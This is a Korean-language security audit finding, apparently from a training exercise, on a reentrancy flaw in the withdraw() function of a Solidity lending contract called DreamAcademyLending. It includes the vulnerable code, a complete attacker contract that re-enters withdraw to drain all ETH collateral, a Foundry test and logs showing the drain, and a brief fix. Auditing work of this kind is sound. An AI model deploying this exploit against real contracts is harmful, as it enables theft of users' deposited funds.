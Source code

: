 ## 김남령

## 미구현된 부분: Accured Interest, Healthy

## 1. Reentrancy

### 설명

문제 코드: DreamAcademyLending.sol 내 withdraw() 함수 전체

withdraw 함수에서 예치한 이더리움 담보를 보낼 때 담보에 대한 정보를 업데이트 하지 않은 채로 송금을 먼저 수행하기 때문에 발생한 문제이다.

```java
function withdraw(address _tokenAddress, uint256 _amount) external{
  _update();
  uint256 availableWithdraw =  vaults[msg.sender].borrowUSDC *1e18 / oracle.getPrice(address(0x0)) * LTV / 100;
  VaultInfo memory tempVault = vaults[msg.sender];

  require(tempVault.collateralETH >= _amount, "INSUFFICIENT_AMOUNT");
  require(tempVault.collateralETH - availableWithdraw >= _amount);

  tempVault.collateralETH -= _amount;
  (bool success, ) = payable(msg.sender).call{value: _amount}("");
  require(success, "ERROR");

  vaults[msg.sender] = tempVault;

}
```

withdraw 함수는 tempVault라는 지역변수를 선언해 사용자의 담보 정보를 가져오는데, 이를 업데이트하는 `vaults[msg.sender] = tempVault;` 구문이 송금 이후에 위치해있다. 이는 Checks - Effects - Interaction 패턴에 벗어나며, 외부 함수의 호출로 인한 reentrancy 취약점이 발생할 수 있다.

### 파급력

Critical

-   산정 이유
    -   공격자가 1 wei만 가지고 있더라도 연속적인 공격 수행으로 lending 컨트랙트의 모든 이더리움 담보를 탈취할 수 있다.
-   공격 시나리오
    ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
          lending = _lending;
          owner = msg.sender;
      }

      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 1 ether");
        (bool success, )= address(lending).call{value: msg.value}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), msg.value));
        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), msg.value));
      }

    	function transfer() public payable {
        (bool success,) = msg.sender.call{value: address(this).balance}("");
      }

      receive() external payable {
    	  uint targetBalance = address(lending).balance;
    	  if(targetBalance > 100 ether){
          (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
    	  }
      }
    }
    ```
    -   위와 같이 reentrancy를 유발하는 컨트랙트를 작성할 수 있다.
    -   공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    -   receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    -   Lending 컨트랙트 내에서 아직 vault의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    -   모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트의 모든 자산을 갖게 된다.
    -   이렇게 탈취한 자산은 공격자가 가져갈 수 있다.
    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
        (bool success1,) = address(reentrancy).call{value: 100 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
        (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
    }
    ```
    ```java
    [PASS] testReentrancy() (gas: 657090)
    Logs:
      user1 balance 1000
      reenter balance 0
      lending balance 1000
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      0
      user1 balance 2000
      reenter balance 0
      lending balance 0
    ```

### 해결 방안

-   이더리움 송금 구문 이전에 vault의 값을 업데이트해주어야 한다
